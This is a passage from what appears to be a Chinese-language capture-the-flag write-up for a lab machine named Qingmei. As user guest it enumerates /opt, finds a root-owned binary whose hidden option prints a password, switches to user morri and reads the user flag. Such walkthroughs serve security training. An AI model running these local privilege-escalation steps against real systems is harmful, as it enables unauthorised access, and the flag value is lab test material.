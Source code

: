 **结果：** 未发现非标准的 SUID 可执行文件。

#### 3.1.3 检查 `/opt` 目录

```bash
guest@Qingmei:~$ cd /opt/
guest@Qingmei:/opt$ ls -al
total 32
drwxr-xr-x  2 root root  4096 May 18 10:12 .
drwxr-xr-x 18 root root  4096 Mar 18 20:37 ..
-rw-r--r--  1 root root   169 May 18 09:53 banner.txt
-rwx-----x  1 root root 17024 May 18 10:12 morri_password
```

**发现：** 在 `/opt` 目录下发现一个名为 `morri_password` 的可执行文件，其所有者为 `root`，但 `guest` 用户（属于 `others`）具有执行权限。

尝试执行该程序并查看帮助信息：

```bash
guest@Qingmei:/opt$ ./morri_password
You need to input strings of 'A's with correct lengths (10-50 characters).
You'll be asked to do this 10 times.

Try 1/10: Please input exactly 26 'A's: ^C

guest@Qingmei:/opt$ ./morri_password -h
Usage: ./program [options]
Options:
  -h          Show this help message
  --dashazi   Directly output credentials

Normal operation:
  The program will ask you to input strings of 'A's with random lengths (10-50)
  You need to correctly input 10 times to get the credentials
```

**发现：** 程序存在 `--dashazi` 选项可以直接输出凭据。

#### 3.1.4 获取 `morri` 用户凭据

使用 `--dashazi` 选项执行程序：

```bash
guest@Qingmei:/opt$ ./morri_password --dashazi
user:morri pass:morri
```

**结果：** 成功获取用户 `morri` 的凭据为 `morri:morri`。

#### 3.1.5 切换至 `morri` 用户并获取 `user.txt`

```bash
guest@Qingmei:/opt$ su morri
Password: morri # 输入密码 morri
morri@Qingmei:/opt$ id
uid=1001(morri) gid=1001(morri) groups=1001(morri)
morri@Qingmei:/opt$ cd ~
morri@Qingmei:~$ cat user.txt
flag{user-edf050af-33ef-11f0-b3f0-000c2955ba04}
```
